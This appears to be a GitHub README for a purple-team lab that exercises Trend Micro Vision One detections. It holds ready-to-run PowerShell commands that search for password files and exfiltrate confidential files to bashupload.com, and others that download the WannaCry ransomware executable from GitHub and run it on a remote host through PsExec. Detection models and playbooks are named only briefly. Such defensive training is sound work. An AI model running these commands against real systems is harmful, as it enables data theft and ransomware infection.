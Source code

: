 # Tools-Red-Team
Threat Hunting using Vision One

Herramientas para evaluar un posible ataque Ransomware

4.1. Current User (T1033)	whoami

4.2. Find System Network Connections (T1049)	netstat -anto; Get-NetTCPConnection

4.3. Network Service Scanning (T1046)	Multiple computers within the network have exposed services on

4.4. View remote shares (T1135)	net view \\10.0.10.12 /all

4.5. Find files (T1005)	Get-ChildItem C:\ -Recurse -Include confidential.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
	Get-ChildItem C:\ -Recurse -Include password.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
 
4.6. Manual Command - (T1059)	Get-Content -Path  c:\confidential\confidential.txt

4.7. Net use (T1021.002)	net use \\10.0.10.12\confidential /user:trendmicro trendmicro;

4.8. Manual Command (T1083)	Get-ChildItem -Path \\10.0.10.12\confidential

4.9. Manual Command "Data Exfiltration" (T1041, T1055, T1572)	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt
	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\Passwords.txt

4.10. Manual Command Dropping a 0-day Ransomware! (T1486)	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe
 
5.1. Custom Detection Model - Network and using PowerShell	Create Custom Detection Model: Network and using PowerShell

5.2. Custom Detection Model -  Sensitive data using PowerShell	Detecting an individual trying to upload: Sensitive data using PowerShell

5.3. Custom Detection Model - Ransomware Activity	Detecting Ransomware Activity (Compromised computer)

6.1. Security Playbook - Network Scan using Powershell	Detecting AND STOPPING an individual trying to scan for active computers on a network and using PowerShell scripts - Related to Lab 4.3

6.2. Security Playbooks - Sensitive Data Exfiltration	Detecting AND STOPPING an individual trying to upload sensitive data using PowerShell or other scripts - Related to Lab 4.9.

6.3. Security Playbooks - Ransomware Activity	Detecting and ISOLATING a compromised computer that was the victim of a Ransomware attack - Related to Lab 4.10

6.4 Automated Response - Security Playbook - Sensitive Data Exfiltration	"Run the following command using Caldera / Manual Command:

Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt"
	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe
![imagen](https://github.com/jmorales79/Tools-Red-Team/assets/149610204/639fe2cc-4b70-4afa-bdf8-94564c7fe648)

